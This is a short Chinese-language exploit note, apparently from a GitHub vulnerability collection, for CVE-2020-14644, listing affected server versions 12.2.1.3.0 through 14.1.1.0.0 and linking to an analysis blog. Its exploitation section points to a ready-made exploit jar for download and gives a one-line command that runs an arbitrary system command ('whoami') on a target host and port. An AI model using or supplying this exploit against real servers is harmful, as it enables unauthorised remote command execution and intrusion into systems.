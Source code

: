 ## 影响范围

```http
12.2.1.3.0
12.2.1.4.0
14.1.1.0.0
```

## 漏洞利用

下载EXP：https://github.com/potats0/cve_2020_14644/releases/tag/0.0.2

```bash
java -jar cve-2020-14644.jar 127.0.0.1 7001 whoami
```

## 漏洞分析

https://www.cnblogs.com/potatsoSec/p/13451993.html